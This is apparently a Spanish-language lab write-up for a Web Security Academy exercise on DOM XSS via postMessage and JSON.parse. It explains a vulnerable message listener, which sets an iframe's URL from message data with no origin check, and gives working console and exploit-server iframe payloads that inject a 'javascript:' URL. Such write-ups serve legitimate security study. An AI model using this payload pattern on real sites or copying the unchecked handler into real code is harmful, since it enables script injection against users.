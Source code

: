 ```yaml
---
layout: default
title: 3 - DOM XSS using web messages and JSON.parse
---
```

```javascript
window.addEventListener('message', function(e) {
    var iframe = document.createElement('iframe'),
        ACMEplayer = {
            element: iframe
        },
        d;
    document.body.appendChild(iframe);
    try {
        d = JSON.parse(e.data); #Lo convierte en un elemento de tipo JSON
    } catch (e) {
        return;
    }
    switch (d.type) {
        case "page-load":
            ACMEplayer.element.scrollIntoView();
            break;
        case "load-channel":
            ACMEplayer.element.src = d.url;
            break;
        case "player-height-changed":
            ACMEplayer.element.style.width = d.width + "px";
            ACMEplayer.element.style.height = d.height + "px";
            break;
    }
}, false);
```

Este código JavaScript escucha los mensajes enviados a la ventana del navegador (`window`) y ejecuta ciertas acciones en función del contenido del mensaje. A continuación, te explico el código paso a paso:

### 1. **Escuchador de Eventos (`window.addEventListener('message', ...)`):**
   - **Función**: El código adjunta un *event listener* al evento `message` de la ventana, que se activa cuando la ventana recibe un mensaje de otro contexto (por ejemplo, de un iframe o de otra ventana del navegador).
   - **Evento**: `message`. Este evento ocurre cuando se recibe un mensaje desde otra ventana o iframe utilizando `window.postMessage`.

### 2. **Creación de un iframe (`var iframe = document.createElement('iframe')`):**
   - Cuando se recibe un mensaje, el código crea un nuevo elemento `iframe` y lo agrega al cuerpo del documento (`document.body.appendChild(iframe)`).
   - **`ACMEplayer`**: Se crea un objeto llamado `ACMEplayer` con una propiedad `element` que apunta al iframe recién creado. Este objeto parece estar pensado para gestionar el iframe.

### 3. **Intento de Parseo del Mensaje (`try { d = JSON.parse(e.data); } catch(e) { return; }`):**
   - El código intenta interpretar el mensaje recibido (`e.data`) ==como un objeto JSON== usando `JSON.parse`. Si el parseo falla (por ejemplo, si el mensaje no es un JSON válido), se interrumpe la ejecución (`return`).

### 4. **Manejo del Mensaje (`switch(d.type) {...}`):**
   - Dependiendo del valor de `d.type`, se ejecuta una de las siguientes acciones:
     - **`case "page-load":`**
       - Mueve el iframe al área visible del viewport usando `scrollIntoView()`.
     - **`case "load-channel":`**
       - Establece la URL del iframe a `d.url`. Esto hace que el iframe cargue la página en esa URL.
     - **`case "player-height-changed":`**
       - Ajusta las dimensiones del iframe (ancho y alto) a los valores `d.width` y `d.height` recibidos en el mensaje.


==Payload que ejecuta print()==

**Desde consola :** 

postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")

**Desde exploit server :** 
`
<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>



